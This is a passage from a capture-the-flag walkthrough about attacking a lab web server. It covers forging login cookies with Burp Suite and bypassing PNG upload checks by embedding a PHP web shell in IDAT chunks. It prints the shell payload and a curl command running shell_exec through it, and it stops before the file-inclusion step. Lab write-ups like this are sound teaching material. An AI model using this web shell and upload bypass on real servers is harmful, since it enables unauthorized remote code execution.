

Now that we have the credneitals, we can try logging in to the admin panel and accessing the upload page. Unfortunately, the login functionality doesn't quite work as is (no cookies are set), and thus the upload page doesn't register us as logged in.


 Having a look at the [source code][brokenlogin], we can see that the website is looking for a **"username"** and **"password"** cookie.

 ```php
 if (isset($_COOKIE['username']) && isset($_COOKIE['password']) && $_COOKIE['username'] == 'Michael' && $_COOKIE['password'] === str_replace(array("\n", "\r", " "), '', file_get_contents('creds.txt')))
 ```
 
 We can use Burp Suite to automatically add these cookies to every request for us, by adding a session handling rule under the "Project Options" tab as follows:

 

 It's important to add the "Proxy" tab into the scope, so that Burp can apply this rule to every request that goes to 172.30.0.2.

 

 Revisiting upload.php, we now see the page as intended.

 

 Now comes what I found to be the best part of this box, the file upload. Once again, we look at the [source for png_upload.php][pngupload], and we see the following precautions put in place around file uploads.

 ```php
 if ($file_extension !== "png") {
    $response = array(
        "type" => "error",
        "message" => "Upload valid images. Only PNG and JPEG are allowed."
    );
}
else if (($_FILES["upload"]["size"] > 2000000)) {
    $response = array(
        "type" => "error",
        "message" => "Image size exceeds 2MB"
    );
}
else if ($check['mime'] !== "image/png")
{
$response = array(
    "type" => "error",
    "message" => "Invalid mimetype"
);
}
else {
    $target = imagecreatetruecolor($size['width'], $size['height']);

    imagecopyresampled($target, imagecreatefromstring(file_get_contents($_FILES["upload"]["tmp_name"])), 0, 0, 0, 0, $size['width'], $size['height'], $check[0], $check[1]);

    if (imagepng($target, $dir.basename($_FILES["upload"]["name"]))) {
        $response = array(
            "type" => "success",
            "message" => "Image uploaded successfully."
        );
    } else {
        $response = array(
            "type" => "error",
            "message" => "Problem in uploading image files."
        );
    }
}
```

Namely,

1. The file has to have a **".png"** extension
2. The file has to be <= 2MB
3. The has to have a **"image/png"** mimetype
4. The image gets processed through **"imagecopyresampled"** and **"imagecreatefromstring"** before being written to disk

Now, if it weren't for the 4th rule, this would be a piece of cake. Simply grab a PNG, concatenate a PHP webshell onto the end of the file and rename it to end with **".php.png"** to have the PHP code within it processed by the web server (Apache/NGINX). Unfortunately, that's not the case, and we need to find a way to bypass these transformations of our file. This is where [Encoding Web Shells in PNG IDAT chunks][idontplaydarts] comes to the rescue. This is a seriously cool exploit accompanied by a well written blog post, as well as an [example PNG file][examplepng]. The TL;DR of the exploit is, we encode 
```<?=$_GET[0]($_POST[1]);?>``` into the PNG file in such a way so that it remains in the file after the image transformations (in this case, resizing to 32x32). So now we can upload our web shell.


## Accessing the web shell
So we managed to upload a web shell, but now we need a way to access it. We can GET/POST to it with the necessary parameters and data, but since it's just an image, the web server won't process the PHP inside the image. 

```
kali@kali:~/sharky/penteeeeest$ curl 172.30.0.2/blog/uploads/shell.php.png?0=shell_exec --data "1=ls" --output - && echo
�PNG
▒
IHDR �▒��       pHYs���+IDATH�c\<?=$_GET[0]($_POST[1]);?>X����s^7�����~_�}�'���ɿ_�|�00cٹg��=2��Q0
F�(▒�`��Q0
��
IEND�B`�
```

There are 2 ways around this:
1. Trick the web server into responding with a different ```Content-Type``` HTTP header
2. Include the image into a web page that has the correct ```Content-Type``` HTTP header

Remember that LFI I mentioned earlier?

 [brokenlogin]: https://github.com/Michael-SharkyMaster/website/blob/5f46d8bc779c4c4f1ed9d5ecde71c330d81c970b/admin/upload.php#L61
 [pngupload]: https://github.com/Michael-SharkyMaster/website/blob/master/admin/png_upload.php#L21-L56
 [idontplaydarts]: https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
 [examplepng]: https://www.idontplaydarts.com/images/phppng.png